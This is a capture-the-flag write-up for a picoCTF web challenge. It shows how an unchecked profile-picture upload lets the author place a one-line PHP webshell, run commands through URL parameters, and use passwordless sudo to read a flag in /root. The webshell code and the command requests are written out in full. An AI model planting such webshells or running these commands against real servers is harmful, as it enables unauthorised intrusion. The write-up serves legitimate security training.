 # n0s4n1ty 1 #

## Overview ##

100 points

Category: [Web Exploitation](../)

Tags: `#webexploitation #fileupload #webshell #php #sanitisation`

## Description ##

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory. 
You can access the web application here!

## Approach ##

Opening the challenge link in a browser we see an `Browse...` button to browse to a local image to upload as a new profile photo or avatar. An `Upload Profile` button submits the request.

Continuing to explore the challenge website functionality, uploading a dummy image file `dummy.png` yields the following response:

    The file dummy.png has been uploaded Path: uploads/dummy.png 

This informs us of where our uploaded file has been saved on the server, so trying to navigate directly to this file, by appending `uploads/dummy.png` to our URL, we see our dummy image file.

    http://standard-pizzas.picoctf.net:61657/uploads/dummy.png

So, if the website is not properly sanity checking (reference to the challenge name) our uploaded file, possibly we could upload and navigate to a file that is not an image, but perhaps PHP code?

Creating a simple webshell PHP source file `webshell.php` that uses a `cmd` query string parameter and issues a `system()` call with the value of this parameter:

    $ echo "<?php system(\$_GET['cmd']); ?>" > webshell.php

    $ cat webshell.php 
    <?php system($_GET['cmd']); ?>

Upload this `webshell.php` source file as a "profile image".

Test the web shell with a simple command (in this case `id` command) using the URL and query string as a `GET` request, to confirm everything is working as suspected:

    http://standard-pizzas.picoctf.net:61657/uploads/webshell.php?cmd=id

Response:

    uid=33(www-data) gid=33(www-data) groups=33(www-data) 

Confirming successful execution of our uploaded PHP webshell code.

Using our uploaded webshell code we can now issue `system()` commands to locate and drop the challenge flag.

Request to list the contents of the current folder:

    http://standard-pizzas.picoctf.net:61657/uploads/webshell.php?cmd=ls

Response:

    webshell.php

The challenge description states the flag resides within the `/root` folder, so lets try listing it's contents:

    http://standard-pizzas.picoctf.net:61657/uploads/webshell.php?cmd=ls%20/root

An empty response, due more likely to insufficient privileges to list the contents of `/root`, so lets check the lit of allowed `sudo` commands:

    http://standard-pizzas.picoctf.net:61657/uploads/webshell.php?cmd=sudo%20-l

Response:

    Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL

Which indicates we can run any command, so lets try and list the contents of `/root` again, however this time via `sudo`:

    http://standard-pizzas.picoctf.net:61657/uploads/webshell.php?cmd=sudo%20ls%20/root

Response:

    flag.txt

There's our flag.

## Solution ##

Using the upload webshell detailed in the approach section of this write up, we can dump the contents of the flag file using the `cat` command with `sudo` to allow access.

Request:

    http://standard-pizzas.picoctf.net:61657/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt

Response:

    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
